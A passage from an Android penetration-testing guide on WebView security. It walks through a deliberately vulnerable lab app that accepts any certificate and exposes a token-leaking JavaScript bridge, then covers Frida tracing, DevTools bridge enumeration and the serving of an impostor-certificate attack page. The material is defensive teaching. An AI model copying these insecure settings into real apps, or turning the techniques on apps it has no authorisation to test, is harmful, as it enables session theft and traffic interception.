3. **Prove you control the URL.** `adb shell am start -a android.intent.action.VIEW -d '<your url>'`.
   Until this works you have a theory.
4. **Attach the tracer and exercise the app.**
   `frida -U -f com.example.app -l scripts/trace-webview.js`, then `settings()` and `bridges()`. This
   is where `COMPUTED` becomes a number and where OEM-injected bridges appear.
5. **Enumerate the bridge from the page**, not from the APK. `for (var k in AndroidBridge)` is the
   ground truth, and the tracer prints the same list by reflection at registration time.
6. **Test the certificate path deliberately.** A self-signed certificate from a CA in no store — not
   your proxy's CA, which on a device like this one may be in the *system* store and would prove
   nothing (§3.10's warning). Then run the `forceCancel(true)` control.
7. **Check for a live DevTools socket.** `adb shell cat /proc/net/unix | grep devtools`. Grep for
   `devtools`, not for a package name (§3.13).
8. **Read the storage.** `app_webview/` in the app's data directory, after an authenticated session
   and again after logout.
9. **Write it up with the version stamp.** OS release, API level, and WebView provider version.

### 5.10 How malware abuses it

Malware's use of WebView is usually the mirror image of an app's accident.

**Phishing overlays.** A WebView rendering a pixel-accurate copy of a bank's login page, shown over
the real app. The WebView is the rendering engine for the fake; the interesting artefact for an
analyst is the *URL* or the bundled HTML, not the WebView itself.

**A bridge as a command channel.** Rather than implementing C2 in Java, the sample registers a rich
bridge and puts all its logic in remotely-fetched JavaScript. The Java side then looks innocuous and
static analysis of the DEX finds a handful of generic methods — `exec`, `read`, `post` — while the
behaviour lives in a script the analyst never sees. Recognising this is a matter of noticing a bridge
whose methods are *too general*.

**Dynamic code without `DexClassLoader`.** JavaScript in a WebView is executable code loaded at
runtime with no DEX involved, so none of the DEX-loading detections in
[13-ART](../13-ART/README.md) fire.

**`setAllowUniversalAccessFromFileURLs(true)` with a local page** is a compact way for a sample to
read files and reach providers with only HTML on disk.

An indicator worth checking in triage: a WebView-based sample with **no `WebViewClient` at all** and
a permissive settings block is doing something other than showing the user a web page.

### 5.11 How forensic analysts investigate it

Given a device image or a pulled data directory, the WebView leaves an unusually rich trail (§3.14):

| Artefact | Question it answers |
|---|---|
| `app_webview/Cookies` (SQLite) | Which sites the app was authenticated to, and when |
| `app_webview/Local Storage/leveldb/` | Application state the page chose to persist, in plain text |
| `app_webview/Cache/` | **Actual response bodies** — often the only copy of what the user saw |
| `app_webview/Web Data` | Autofill entries |
| The app's `AndroidManifest.xml` | Whether the WebView was reachable from outside the app |

The cache is the highest-value item and the most often missed. It contains rendered content, which
means an analyst can frequently reconstruct the pages a user was shown even when no network capture
exists.

### 5.12 Bug bounty patterns

What actually pays, based on how these programmes triage:

- **Deep link → WebView → bridge, with a demonstrated impact.** Submit the `am start` command, the
  attacker page, and the data that came back. A configuration observation without a working chain is
  usually informational.
- **`onReceivedSslError` proceeding, with a capture.** Report the code path *and* the intercepted
  traffic. Note explicitly that the network security config does not mitigate it, because the first
  triage response will otherwise be "we have a strict NSC".
- **`setWebContentsDebuggingEnabled` in a release build, with `/proc/net/unix` output.** Without the
  socket it is a code observation.
- **Universal file access with a local write.** Chain it; the setting alone is often triaged as
  requiring a precondition the reporter did not demonstrate.

What generally does not pay: `setJavaScriptEnabled(true)`; a bridge with no reachable
attacker-controlled content; the device's WebView being out of date; DOM storage being enabled with
nothing sensitive in it.

---

## 6. Reverse Engineering Perspective

Everything in this section is real output from `examples/vulnerable-webview/`, built with
`examples/build.sh` and disassembled with `dexdump` from build-tools 35.0.1. Nothing is hand-written
to look plausible.

### 6.1 What it looks like in JADX

Decompiled, the whole finding is legible at a glance — which is why JADX is the right first tool:

```java
// jadx output, com.pentest.ch43.vuln.VulnerableWebViewActivity
WebSettings s = this.web.getSettings();
s.setJavaScriptEnabled(true);
s.setAllowFileAccess(true);
s.setAllowFileAccessFromFileURLs(true);
s.setAllowUniversalAccessFromFileURLs(true);
s.setMixedContentMode(0);
s.setDomStorageEnabled(true);
this.web.addJavascriptInterface(new LeakyBridge(this), "AndroidBridge");
this.web.setWebViewClient(new SloppyWebViewClient(this));
```

```java
// the WebViewClient
class SloppyWebViewClient extends WebViewClient {
    @Override
    public void onReceivedSslError(WebView view, SslErrorHandler handler, SslError error) {
        Log.w("CH43VULN", "SSL error ignored: primaryError=" + error.getPrimaryError()
                + " url=" + error.getUrl());
        handler.proceed();
    }
}
```

Two reading notes for real apps.

**`setMixedContentMode(0)` shows as a bare `0`.** JADX does not resolve it back to
`MIXED_CONTENT_ALWAYS_ALLOW`. Memorise `0 = ALWAYS_ALLOW`, `1 = NEVER_ALLOW`,
`2 = COMPATIBILITY_MODE`, or use the auditor, which prints the name.

**The bridge class is where the finding actually lives.** `LeakyBridge` in the line above is a
one-word reference; the impact is entirely determined by what is inside it. Follow it immediately,
and read every method that carries `@JavascriptInterface`.

### 6.2 In Smali / dexdump

The settings block, real bytecode:

```
0010ac: 6e10 1c00 0400  |0030: invoke-virtual {v4}, Landroid/webkit/WebView;.getSettings:()Landroid/webkit/WebSettings;
0010b2: 0c04            |0033: move-result-object v4
0010b4: 6e20 1800 0400  |0034: invoke-virtual {v4, v0}, Landroid/webkit/WebSettings;.setJavaScriptEnabled:(Z)V
0010ba: 6e20 1400 0400  |0037: invoke-virtual {v4, v0}, Landroid/webkit/WebSettings;.setAllowFileAccess:(Z)V
0010c0: 6e20 1500 0400  |003a: invoke-virtual {v4, v0}, Landroid/webkit/WebSettings;.setAllowFileAccessFromFileURLs:(Z)V
0010c6: 6e20 1600 0400  |003d: invoke-virtual {v4, v0}, Landroid/webkit/WebSettings;.setAllowUniversalAccessFromFileURLs:(Z)V
0010cc: 1201            |0040: const/4 v1, #int 0 // #0
0010ce: 6e20 1900 1400  |0041: invoke-virtual {v4, v1}, Landroid/webkit/WebSettings;.setMixedContentMode:(I)V
0010d4: 6e20 1700 0400  |0044: invoke-virtual {v4, v0}, Landroid/webkit/WebSettings;.setDomStorageEnabled:(Z)V
```

> **The trap that defeats naive tooling, visible right here.**
> Four consecutive setters all pass **`v0`**, and `v0` is not set anywhere in this listing — the
> compiler hoisted `const/4 v0, #int 1` far earlier and reused the register. A tool that reads "the
> instruction immediately before the call" to find the argument gets `move-result-object v4` for the
> first setter and `invoke-virtual` for the rest, and concludes nothing. `scripts/webview-audit.py`
> walks **backwards through the decoded instruction stream** looking for the last write to the
> argument register, which is why it correctly reports `true` for all four and `0` for
> `setMixedContentMode`. It also reports `COMPUTED` — honestly — when the last writer is a field read
> or a method return instead of a constant, which is what four of the eleven real APKs in §5.4
> produced.

The `onReceivedSslError` body, and the one instruction that is the finding:

```
000fb8: com.pentest.ch43.vuln.VulnerableWebViewActivity$SloppyWebViewClient.onReceivedSslError:
        (Landroid/webkit/WebView;Landroid/webkit/SslErrorHandler;Landroid/net/http/SslError;)V
...
001012: 1a04 0900       |0025: const-string v4, "CH43VULN"
001016: 7120 1100 2400  |0027: invoke-static {v4, v2}, Landroid/util/Log;.w:(Ljava/lang/String;Ljava/lang/String;)I
00101c: 6e10 1200 0300  |002a: invoke-virtual {v3}, Landroid/webkit/SslErrorHandler;.proceed:()V
001022: 0e00            |002d: return-void
```

`insns size : 46 16-bit code units`, and **no conditional branch anywhere in it**. That combination —
`proceed()` present, `cancel()` absent, zero `if-*` and zero `*-switch` instructions — is exactly the
signature the auditor rates `WV-001 [CRITICAL]`. It is mechanically decidable, which is why it is the
one WebView verdict that can be automated with confidence.

The debugging switch, a static invoke rather than a settings call:

```
0010a2: 7110 1e00 0000  |002b: invoke-static {v0}, Landroid/webkit/WebView;.setWebContentsDebuggingEnabled:(Z)V
```

Note `invoke-static`. Grepping Smali for `setWebContentsDebuggingEnabled` finds it regardless, but if
you are writing bytecode analysis, remember the argument is at index **0**, not 1, because there is no
`this`.

And the bridge registration, with the exposed name as a plain string:

```
0010e2: 7020 2600 3000  |004b: invoke-direct {v0, v3}, Lcom/pentest/ch43/vuln/LeakyBridge;.<init>:(Landroid/content/Context;)V
0010e8: 1a01 0700       |004e: const-string v1, "AndroidBridge"
0010ec: 6e30 1b00 0401  |0050: invoke-virtual {v4, v0, v1}, Landroid/webkit/WebView;.addJavascriptInterface:(Ljava/lang/Object;Ljava/lang/String;)V
```

The `const-string "AndroidBridge"` immediately before the call is the global variable name the page
will see. That is the string to try first in a browser console or a DevTools session.

### 6.3 Finding the annotation in Smali

`@JavascriptInterface` is a **runtime-visible annotation**, so it survives into the DEX as an
`annotation_item` and appears in baksmali output attached to the method:

```smali
# in the smali for the bridge class
.method public getSessionToken()Ljava/lang/String;
    .annotation runtime Landroid/webkit/JavascriptInterface;
    .end annotation
    ...
.end method
```

Which gives the fastest possible enumeration of a bridge's exposed API from a decompiled APK:

```bash
# host — after: apktool d base.apk -o work
grep -rl "Landroid/webkit/JavascriptInterface;" work/smali*/ | head
grep -rB6 "Landroid/webkit/JavascriptInterface;" work/smali*/ | grep "^.*\.method" | head -40
```

`scripts/webview-audit.py` does the same thing at the DEX level, by parsing each class's
`annotations_directory_item` and matching the annotation type index, which is why it can list
`@JavascriptInterface` methods without needing apktool at all.

### 6.4 What obfuscation does to it, and does not

R8 and ProGuard ([41-ProGuard](../41-ProGuard/README.md), [42-R8](../42-R8/README.md)) rename the
app's own classes and methods. What survives is what makes WebView analysis unusually high-yield:

| Element | Survives obfuscation? | Why |
|---|---|---|
| `Landroid/webkit/WebSettings;->setJavaScriptEnabled` | **Yes** | Platform API. Renaming it would break the call |
| `Landroid/webkit/SslErrorHandler;->proceed` | **Yes** | Same |
| The method name `onReceivedSslError` | **Yes** | It is an override of a platform method; renaming it would stop it being called |
| `Landroid/webkit/JavascriptInterface;` | **Yes** | Platform annotation type |
| **The bridge method names** | **Yes**, in practice | They are called by *name* from JavaScript. Renaming them breaks the app, so every real project has a `-keep` rule. §5.4 shows obfuscated *class* names (`com.google.android.recaptcha.internal.zzij`) with intact method names |
| The bridge class name | No | `zzij`, `WV.e53`, `ar.a` — all real, all from §5.4 and §7 |
| The exposed global name (`"AndroidBridge"`) | **Yes** | It is a string constant, and it is the name the page uses |
| String constants generally | Yes, unless string encryption is applied | See [40-Obfuscation](../40-Obfuscation/README.md) |

The practical consequence is excellent for a tester: **the entire WebView surface is defined in terms
of platform API names and string constants, both of which obfuscation must preserve.** You can audit a
fully-obfuscated app's WebView configuration completely. What you lose is the ability to tell at a
glance *whose* code it is — which is why §5.4 leans on package prefixes (`io.intercom.android.sdk.*`)
that are usually kept for other reasons.

### 6.5 Recognising the patterns at a glance

| What you see | What it means | Next step |
|---|---|---|
| `invoke-virtual … WebSettings;->setJavaScriptEnabled` with `const/4 vX, 1` before it | JS on | Context only. Find the bridge |
| `invoke-virtual … WebView;->addJavascriptInterface` + `const-string` | A bridge, and its global name | Read every `@JavascriptInterface` method on the object |
| A method named `onReceivedSslError` with `SslErrorHandler;->proceed` and no `if-*` | **Unconditional accept** | Report CRITICAL; confirm at runtime |
| Same, but with `if-*` instructions | Conditional accept | **Read it.** Certificate comparison, or `BuildConfig.DEBUG`? |
| `invoke-static … setWebContentsDebuggingEnabled` with `const/4 vX, 1` and no branch | Unguarded debugging | Check `/proc/net/unix` on the device |
| `setAllowUniversalAccessFromFileURLs` with `1` | HIGH by shape | Find the local-write primitive |
| `loadUrl` whose argument traces to `getIntent()` | Attacker-chosen URL | Prove it with `am start` |
| `Intent;->parseUri` inside `shouldOverrideUrlLoading` | Web page to Intent | [26-Intent](../26-Intent/README.md) |

### 6.6 The APK on disk

Nothing WebView-related lives in a dedicated file, which is itself worth knowing — unlike the network
security config, there is no `res/xml/webview_config.xml` to pull. Everything is in the DEX, except:

| Location | What to look for |
|---|---|
| `AndroidManifest.xml` | `BROWSABLE` filters, `android:debuggable`, the `EnableSafeBrowsing` meta-data, `usesCleartextTraffic`, `networkSecurityConfig` |
| `assets/` | Bundled HTML and JavaScript. In a Cordova/Ionic app this is the entire application |
| `res/raw/` | Occasionally HTML or JS |
| `assets/www/` specifically | The Cordova convention. `assets/www/cordova.js` and `config.xml` mean a hybrid app, and its whitelist plugin configuration becomes the navigation gate |
| `lib/` | `libwebviewchromium.so` is *never* here — it is in the provider APK. If you see a bundled browser engine in an app's `lib/`, that is a different product (Crosswalk, GeckoView) with its own version story |

```bash
# host — triage a hybrid app in one command
unzip -l base.apk | grep -E "assets/www|cordova|capacitor|\.html$" | head -20
```

---

## 7. Dynamic Analysis

### 7.1 The one-command answer

```bash
# host — make hooks land reliably; the JIT can inline a hot method out from under you
adb shell cmd package compile -m verify -f com.example.app

# host — ALWAYS spawn. A WebView is configured in onCreate, and an attach arrives too late.
frida -U -f com.example.app -l scripts/trace-webview.js
```

Then exercise the app and, in the REPL:

```
[Device::app]-> settings()      # the FULL effective configuration, including inherited defaults
[Device::app]-> bridges()       # every registered bridge and its exposed methods
[Device::app]-> verdict()       # a summary line for the report
[Device::app]-> forceCancel(true)   # the control for a certificate finding
```

### 7.2 What the tracer actually prints

Real output, from the lab app on this device:

```
[HOOK] settings setters hooked on WebSettings: 20
[DEBUG] setWebContentsDebuggingEnabled(true)   -> an abstract socket
        @webview_devtools_remote_<pid> is now open; check with:
        adb shell cat /proc/net/unix | grep devtools
[WEBVIEW] getSettings() #0 -> com.android.webview.chromium.ContentSettingsAdapter
[PROVIDER] com.google.android.webview 150.0.7871.181   (device is Android 11 / API 30)
           The WebView version is NOT the OS version. Record both.
[BRIDGE] addJavascriptInterface(com.pentest.ch43.vuln.LeakyBridge, "AndroidBridge")
    exposed to page script as window.AndroidBridge
    @JavascriptInterface methods (4): deviceInfo(0), getSessionToken(0), readContent(1), readFile(1)
[WEBVIEW] setWebViewClient(com.pentest.ch43.vuln.VulnerableWebViewActivity$SloppyWebViewClient)
[HOOK] WebViewClient ...$SloppyWebViewClient -- overrides hooked: onReceivedSslError,
        shouldOverrideUrlLoading(request), shouldInterceptRequest, onReceivedClientCertRequest
[LOAD] loadUrl(https://127.0.0.1:8443/evil.html)
[BRIDGE] addJavascriptInterface(miui.contentcatcher.sdk.WebViewDetector, "MiWebViewDetector")
    exposed to page script as window.MiWebViewDetector
    @JavascriptInterface methods (1): onCatch(1)
[HOOK] resolved WV.e53 through the WebView provider ClassLoader
[HOOK] SslErrorHandler concrete class hooked: WV.e53
[SSL] onReceivedSslError in ...$SloppyWebViewClient
    primaryError=3  SSL_UNTRUSTED    - certificate authority is not trusted
    url=https://127.0.0.1:8443/evil.html
    subject=CN=ch43-lab-impostor
    issuer=CN=ch43-lab-impostor
[SSL]   --> app called handler.proceed()   THE LOAD CONTINUES, certificate error and all
```

And `settings()`, which is the output no static tool can produce:

```
[EFFECTIVE] WebSettings #0  [com.android.webview.chromium.ContentSettingsAdapter]
    javaScriptEnabled                      true
    allowFileAccess                        true
    allowFileAccessFromFileURLs            true
    allowUniversalAccessFromFileURLs       true
    allowContentAccess                     true
    domStorageEnabled                      true
    databaseEnabled                        false
    mixedContentMode                       0 (ALWAYS_ALLOW)
    safeBrowsingEnabled                    true
    javaScriptCanOpenWindowsAutomatically  false
    mediaPlaybackRequiresUserGesture       true
    cacheMode                              -1
    blockNetworkLoads                      false
    loadsImagesAutomatically               true
    userAgentString                        Mozilla/5.0 (Linux; Android 11; M2101K6P
                                           Build/RKQ1.200826.002; wv) ... Chrome/150.0.7871.181 ...
```

Three lines in that output are things static analysis structurally cannot give you: the
**`MiWebViewDetector` bridge injected by the OEM** (§5.5), the **provider version**, and the
**effective value of every setting the app never touched**.

### 7.3 Three hooking traps, and how the script handles each

Every one of these produced silently wrong output in an earlier version of
`scripts/trace-webview.js`. They will produce it in yours.

**Trap 1 — `WebSettings` is abstract and the real class is somewhere else.** Hooking
`android.webkit.WebSettings` catches some dispatches and not others. The concrete class is
`com.android.webview.chromium.ContentSettingsAdapter`, discovered at runtime by reading `$className`
off the first live settings object. The script hooks the abstract class up front, hooks the concrete
class the moment it sees one, and prints which:

```
[HOOK] settings setters hooked on WebSettings: 20
[WEBVIEW] getSettings() #0 -> com.android.webview.chromium.ContentSettingsAdapter
```

**Trap 2 — the concrete `SslErrorHandler` is in a different ClassLoader.** `Java.use('WV.e53')`
throws `ClassNotFoundException`, because `WV.e53` lives in the WebView provider's APK. The fix, and
the general pattern for anything in a dynamically-loaded module:

```javascript
var H = safeUse(clsName);                                   // the app's loader
if (H === null) {
    var loader = handler.getClass().getClassLoader();       // the provider's loader
    H = Java.ClassFactory.get(loader).use(clsName);
}
```

**Trap 3 — a Java wrapper obtained inside a hook is not valid later.** Storing the `WebSettings`
object from `getSettings()` and calling a getter on it minutes later fails with
`Error: expected a pointer`. The wrapper is only valid for that JNI frame. `Java.retain()` is
mandatory:

```javascript
state.settingsObjs.push(Java.retain(s));
```

That single missing call is why the first `settings()` implementation returned a stack trace instead
of a table.

### 7.4 The `forceCancel` control — turning an observation into evidence

`forceCancel(true)` makes every `proceed()` send `cancel()` instead. It makes the app **stricter**,
never weaker, which is the direction a measurement tool should be allowed to move.

Run the same navigation twice:

```
### PASS 1: tracing only
[SSL]   --> app called handler.proceed()   THE LOAD CONTINUES, certificate error and all
### PASS 2: same certificate, forceCancel ON
[SSL]   --> app called handler.proceed(), forceCancel is ON so cancel() is being sent instead
[SSL]   --> app called handler.cancel()    the load is refused
```

Pass 1 alone shows a page loading. Pass 2 proves the app's decision is *why*. Without the pair you
are asserting causation from one observation.

> **Measured trap: Chromium caches the proceed decision per host.**
> Pass 2 had to target a **different hostname** (`localhost` instead of `127.0.0.1`, both resolving to
> the same server) to fire at all. After an app proceeds once for a host, subsequent navigations to
> that host do not re-invoke `onReceivedSslError`. If your second attempt produces silence, that is
> why. Change host, or clear the app's data.

### 7.5 The DevTools route — no Frida, no root

When `setWebContentsDebuggingEnabled(true)` is live, this is faster and more powerful than hooking:

```bash
# host — find the socket. Grep for "devtools", not for the package name (see 3.13).
adb shell "cat /proc/net/unix | grep -i devtools"
#   @webview_devtools_remote_22865

# host — forward it and enumerate
adb forward tcp:9222 localabstract:webview_devtools_remote_22865
curl -s http://127.0.0.1:9222/json/version
curl -s http://127.0.0.1:9222/json/list
```

```json
{ "Android-Package": "com.pentest.ch43.vuln",
  "Browser": "Chrome/150.0.7871.181",
  "V8-Version": "15.0.245.21",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/browser" }
[ { "title": "totally normal page", "type": "page",
    "url": "http://127.0.0.1:8000/evil.html",
    "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/page/28FE6A8F73CC86EE3C3115E78B5D66BB" } ]
```

Point a Chromium browser at `chrome://inspect` with the forward in place and you get the full
inspector. From the console:

```javascript
// in the DevTools console attached to the app's WebView
Object.keys(window).filter(k => typeof window[k] === 'object' && window[k] !== null)
// then, for anything that looks like a bridge:
for (var k in AndroidBridge) console.log(k, typeof AndroidBridge[k]);
AndroidBridge.getSessionToken();
```

That is a complete bridge enumeration and exercise, with no instrumentation framework at all, from an
`adb shell` with uid 2000. It is the reason `setWebContentsDebuggingEnabled(true)` in a release build
is a HIGH.

### 7.6 Why your TLS tooling is silent, and what to use instead

Attach [35-SSL](../35-SSL/README.md)'s `trace-tls-validation.js` to an app and load a page in its
WebView. You will see **nothing**. Not a `checkServerTrusted`, not a `HostnameVerifier`, not an
`SSLContext.init`. The script is correct; WebView traffic does not go through the Java stack
(§2.5).

The same applies to bypasses. `53-Frida`'s `ssl-pinning-bypass.js` and objection's
`android sslpinning disable` hook `X509TrustManager`, OkHttp's `CertificatePinner` and friends. Every
one of those hooks is inert against a WebView.

**What to do instead, in order of preference:**

1. **Check whether there is anything to bypass.** Run `trace-webview.js` and load a page over your
   proxy. If it loads, nothing is stopping you and there is no bypass to write.
2. **Get your CA into the store Chromium consults.** Chromium on Android uses the platform trust
   store as input. A CA in the *system* store works. A user-installed CA is subject to the same API 24
   rules chapter 44 describes — with the enormous caveat that **on this test device the system store
   is modified** and cannot be used to answer that question: `adb shell mount | grep cacerts` shows
   an APatch `trustusercerts` module has replaced that directory with a tmpfs and *promoted* the
   interception CA into the system store, so a successful intercept here proves nothing about
   user-store trust.
3. **Use the app's own `proceed()` against it**, if it has one. An app that accepts any certificate
   needs no CA at all.
4. **If the app's WebView genuinely pins**, the pin is in Chromium or in a `shouldInterceptRequest`
   implementation doing its own fetch — and the latter *is* Java, and *is* hookable. Find out which
   before writing anything.

```bash
# host — the thirty-second discriminator
frida -U -f com.example.app -l ../35-SSL/scripts/trace-tls-validation.js
#   silence during a page load  -> the traffic is Chromium's; come back to this chapter
#   output during a page load   -> it is the Java stack; chapters 35 and 36 apply
```

### 7.7 Objection

Objection has a small WebView surface, useful for quick triage:

```bash
# host
objection -g com.example.app explore

# in the objection REPL
android hooking list classes | grep -i webview
android hooking watch class_method android.webkit.WebView.loadUrl --dump-args
android hooking watch class_method android.webkit.WebView.addJavascriptInterface --dump-args
android hooking watch class_method android.webkit.WebSettings.setJavaScriptEnabled --dump-args
```

What it will not do: read back the effective settings, resolve the concrete `SslErrorHandler` class
across ClassLoaders, or enumerate `@JavascriptInterface` methods by reflection. Use it to confirm
quickly, then switch to `trace-webview.js` for the report.

### 7.8 ADB and logcat, with no instrumentation at all

A surprising amount is visible without hooking anything:

```bash
# host — Chromium logs its own errors under the "chromium" tag
adb logcat -s chromium:V | grep -iE "ssl|cleartext|cert|blocked|mixed"

# host — the exact string to look for when the network security config is doing its job
adb logcat | grep ERR_CLEARTEXT_NOT_PERMITTED

# host — every WebView-relevant console message an app forwards
adb logcat -s chromium:I | grep -i "console"

# host — is the WebView renderer running at all?
adb shell "ps -A | grep sandboxed_process"

# host — which provider, which version
adb shell dumpsys webviewupdate | grep "Current WebView package"

# host — a live DevTools socket anywhere on the device
adb shell "cat /proc/net/unix | grep -i devtools"
```

`ERR_CLEARTEXT_NOT_PERMITTED` in particular is worth memorising. It is the single clearest signal
that chapter 44's config is enforcing inside a WebView, and seeing it means the app is behaving
correctly rather than failing mysteriously.

### 7.9 Driving Frida non-interactively

The Frida REPL wants a terminal, and the `frida` CLI on Windows exits the moment stdin closes — so
heredocs, pipes and `< /dev/null` all produce a script that loads and immediately detaches. Every
measurement in this chapter was driven through the Python API instead, which is reproducible and
scriptable:

```python
#!/usr/bin/env python3
# host — drive a Frida script and call its rpc exports, with no terminal
import frida, subprocess, time

PKG = "com.pentest.ch43.vuln"
dev = frida.get_usb_device(timeout=10)
pid = dev.spawn([PKG])
sess = dev.attach(pid)
sc = sess.create_script(open("scripts/trace-webview.js", encoding="utf-8").read())
sc.on("message", lambda m, d: print(m.get("payload") or m.get("stack"), flush=True))
sc.load()
dev.resume(pid)
time.sleep(3)

subprocess.run(["adb", "shell", "am", "start", "-a", "android.intent.action.VIEW",
                "-d", "ch43vuln://open?url=https://127.0.0.1:8443/evil.html"])
time.sleep(8)

sc.exports_sync.settings()
sc.exports_sync.bridges()
sc.exports_sync.verdict()
sess.detach()
```

> **Pentester's Note**
> `exports_sync` is frida-python 16's name for what older code calls `exports`. And
> `dev.spawn()` starts the *process*, not an Activity — the `am start` afterwards is what drives it,
> and it lands in the already-spawned process, which is exactly the behaviour you want.

### 7.10 Serving an attack page to a device, safely

Everything in this chapter's labs runs against a listener on **your own machine**, reachable from the
device through `adb reverse`. Nothing is exposed to a network.

```bash
# host — plain HTTP
cd examples/attacker-page && python3 -B -m http.server 8000
adb reverse tcp:8000 tcp:8000
# the device now reaches your machine at http://127.0.0.1:8000/

# host — HTTPS with a deliberately untrusted certificate.
# Generate the key and certificate OUTSIDE any repository, and never commit them.
python3 -B - <<'PY'
import datetime, ipaddress
from cryptography import x509
from cryptography.x509.oid import NameOID
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import rsa
k = rsa.generate_private_key(public_exponent=65537, key_size=2048)
n = x509.Name([x509.NameAttribute(NameOID.COMMON_NAME, u"ch43-lab-impostor")])
now = datetime.datetime.now(datetime.timezone.utc)
c = (x509.CertificateBuilder().subject_name(n).issuer_name(n)
     .public_key(k.public_key()).serial_number(x509.random_serial_number())
     .not_valid_before(now - datetime.timedelta(days=1))
     .not_valid_after(now + datetime.timedelta(days=30))
     .add_extension(x509.SubjectAlternativeName(
         [x509.IPAddress(ipaddress.ip_address(u"127.0.0.1"))]), critical=False)
     .sign(k, hashes.SHA256()))
open("key.pem","wb").write(k.private_bytes(serialization.Encoding.PEM,
     serialization.PrivateFormat.TraditionalOpenSSL, serialization.NoEncryption()))
open("cert.pem","wb").write(c.public_bytes(serialization.Encoding.PEM))
PY
adb reverse tcp:8443 tcp:8443
```

Using a self-signed certificate from a CA that is in **no** store — rather than your proxy's CA — is
deliberate. It makes the result independent of the device's trust posture, which matters enormously
here: this device's system CA store is modified by an APatch `trustusercerts` module, so a proxy CA
would be in the *system* store and a successful intercept would prove nothing.

---

## 8. Static Analysis

### 8.1 The auditor, first

```bash
# host — the normal case
python3 -B scripts/webview-audit.py base.apk

# host — split APKs. WebView code very often lives in a feature split.
python3 -B scripts/webview-audit.py base.apk split_config.arm64_v8a.apk

# host — machine readable, and CI gating
python3 -B scripts/webview-audit.py base.apk --json
python3 -B scripts/webview-audit.py base.apk --fail-on HIGH

# host — a bare DEX (apktool output, or a runtime-dumped classes.dex)
python3 -B scripts/webview-audit.py classes.dex --target-sdk 30
```

What it does that a grep cannot:

- **Recovers the literal argument** by backtracking through the decoded instruction stream to the last
  write of the argument register (§6.2 shows why "the previous instruction" fails).
- **Computes the default** for every setting the app never calls, from the measured table in §3.4 and
  the manifest's `targetSdkVersion` — so a row marked `default` is a real finding candidate rather
  than an absence.
- **Reports `COMPUTED`** rather than guessing when the value is not a literal, which is an
  instruction to go and measure at runtime.
- **Classifies `onReceivedSslError` bodies** by shape: `proceed` present, `cancel` present, branch
  count, `super` called. That is the analysis no network-security-config auditor can do.
- **Enumerates `@JavascriptInterface` methods** from the DEX annotations directory, without apktool.

Run it alongside chapter 44's, always:

```bash
# host — the two halves of "is this app's traffic safe"
python3 -B ../44-NetworkSecurityConfig/scripts/nsc-audit.py base.apk
python3 -B scripts/webview-audit.py base.apk
```

### 8.2 The greps, when you have `apktool` output

```bash
# host
apktool d base.apk -o work

# --- is there a WebView at all? -------------------------------------------- #
grep -rl "Landroid/webkit/WebView;" work/smali*/ | head

# --- the settings, with their arguments visible in context ------------------ #
grep -rn -B3 "WebSettings;->setJavaScriptEnabled" work/smali*/ | head -40
grep -rn -B3 "WebSettings;->setAllowFileAccess" work/smali*/
grep -rn -B3 "WebSettings;->setAllowFileAccessFromFileURLs" work/smali*/
grep -rn -B3 "WebSettings;->setAllowUniversalAccessFromFileURLs" work/smali*/
grep -rn -B3 "WebSettings;->setAllowContentAccess" work/smali*/
grep -rn -B3 "WebSettings;->setMixedContentMode" work/smali*/

# --- the bridge ------------------------------------------------------------- #
grep -rn -B4 "WebView;->addJavascriptInterface" work/smali*/
grep -rl "Landroid/webkit/JavascriptInterface;" work/smali*/

# --- the certificate path: THE grep ----------------------------------------- #
grep -rn "onReceivedSslError" work/smali*/
grep -rn "SslErrorHandler;->proceed" work/smali*/

# --- remote debugging -------------------------------------------------------- #
grep -rn -B3 "setWebContentsDebuggingEnabled" work/smali*/

# --- navigation gates and where they hand off -------------------------------- #
grep -rn "shouldOverrideUrlLoading\|shouldInterceptRequest" work/smali*/
grep -rn "Intent;->parseUri" work/smali*/          # web page -> Intent escalation

# --- where the URL comes from ------------------------------------------------ #
grep -rn -B6 "WebView;->loadUrl" work/smali*/ | grep -i "getIntent\|getData\|getQueryParameter"
```

> **The grep that matters most is the shortest one.**
> `grep -rn "SslErrorHandler;->proceed" work/smali*/`
> A hit is a lead of the highest possible value, and it is invisible to every network-security-config
> tool, every manifest scanner, and every pinning-bypass script. Chapter 44's README puts this exact
> command in its own §8 and points here.

### 8.3 The manifest

```bash
# host — decode without apktool
python3 -B ../10-APK-Internals/examples/parse_axml.py base.apk | less
```

| What to look for | Why |
|---|---|
| `android:exported="true"` + `BROWSABLE` + a `<data android:scheme>` | The entry point. Cross-reference with non-constant `loadUrl` arguments |
| `android:debuggable="true"` | Makes `setWebContentsDebuggingEnabled` unremarkable and everything else worse |
| `android:networkSecurityConfig` | Run chapter 44's auditor. Its absence at targetSdk ≥ 28 still means cleartext is denied by default |
| `android:usesCleartextTraffic` | The older, coarser control. The config wins where both exist |
| `<meta-data android:name="android.webkit.WebView.EnableSafeBrowsing" android:value="false"/>` | A platform protection removed, app-wide |
| `<meta-data android:name="android.webkit.WebView.MetricsOptOut"/>` | Privacy, not security |
| `android:allowBackup="true"` | Everything in §3.14 becomes extractable without root |

### 8.4 Hybrid apps deserve a different pass

If `assets/www/` exists, the app *is* a web app and the whole of it is in your hands:

```bash
# host
unzip -o base.apk 'assets/www/*' -d work-www
grep -rn "cordova.exec\|window.webkit\|Capacitor.Plugins" work-www/ | head -30
cat work-www/assets/www/config.xml 2>/dev/null        # Cordova's allow-list lives here
```

Cordova's `<access>` and `<allow-navigation>` elements in `config.xml` are the navigation gate, and
`org.apache.cordova.engine.SystemWebViewClient` is the `WebViewClient` — the same class §5.4 measured
calling `proceed()` behind a branch in a real app. Its plugin list in `config.xml` is a bridge
inventory: every Cordova plugin is reachable from page JavaScript by design.

### 8.5 The check that stops you auditing a stub

```bash
# host — run this BEFORE believing a clean report (see 5.4)
python3 -B -c "
import zipfile,sys,re
z=zipfile.ZipFile(sys.argv[1])
d=[n for n in z.namelist() if re.fullmatch(r'classes\d*\.dex',n)]
print(len(d),'dex files,',sum(z.getinfo(n).file_size for n in d),'bytes of code,',
      'apk is', z.fp.seek(0,2) if False else '')
" base.apk
adb shell pm path com.example.app      # are there splits you did not pull?
```

`com.vendor.socialmedia` on this device: a 57 MB APK containing one 72 KB `classes.dex`, `versionName`
literally `stub (69.0.21)`. An audit of that file is an audit of a downloader.

### 8.6 What static analysis structurally cannot tell you

Worth stating explicitly, so you know when to stop:

- **Values computed at runtime.** A remote config, a build flavour, a field. The auditor says
